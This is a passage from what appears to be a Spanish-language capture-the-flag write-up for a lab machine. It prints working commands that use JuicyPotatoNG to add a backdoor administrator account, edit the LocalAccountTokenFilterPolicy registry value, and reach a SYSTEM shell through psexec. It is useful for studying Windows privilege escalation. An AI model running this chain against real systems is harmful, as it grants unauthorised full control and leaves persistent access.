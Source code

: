 ```null
bbc8a4e6ba2d7720d1446defba5d9168
```

Otra forma de ganar acceso sería creando un usuario y agregándolo al grupo Administrators

```null
PS C:\Temp> .\JuicyPotatoNG.exe -t * -p cmd.exe -a "/c net user rubbx rubbx123$! /add"
PS C:\Temp> .\JuicyPotatoNG.exe -t * -p cmd.exe -a "/c net localgroup Administrators rubbx /add"
```

Pero al intentar conectarme por ```psexec``` no tengo permisos

```null
psexec.py 'WORKGROUP/rubbx:rubbx123$!@10.10.10.116'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.116.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

Para solucionarlo, basta con retocar el registro del LocalAccountTokenFilterPolicy

```null
PS C:\Temp> .\JuicyPotatoNG.exe -t * -p cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

```null
psexec.py 'WORKGROUP/rubbx:rubbx123$!@10.10.10.116'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.116.....
[*] Found writable share ADMIN$
[*] Uploading file xhMvbgLt.exe
[*] Opening SVCManager on 10.10.10.116.....
[*] Creating service MVmB on 10.10.10.116.....
[*] Starting service MVmB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
